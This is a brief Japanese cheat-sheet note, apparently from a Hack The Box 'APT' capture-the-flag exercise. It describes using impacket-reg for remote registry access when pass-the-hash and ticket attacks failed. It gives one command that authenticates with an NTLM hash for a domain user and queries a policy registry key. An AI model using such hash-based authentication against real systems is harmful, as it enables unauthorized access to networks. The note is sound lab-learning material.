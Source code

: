 # Remote registry manipulation tool.

APTやったときに、ハッシュが分かってるのに、pass the hashもpass the ticketもgolden ticketもover pass the hashも出来なかったとき、このリモート
レジストリが希望となった。

Requirements:
- Domain
- Username
- Pssword or Hash
- Target IP address
- Registry key name

```
impacket-reg -hashes aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb -dc-ip apt 'htb.local/henry.vinson@apt' query -keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
```

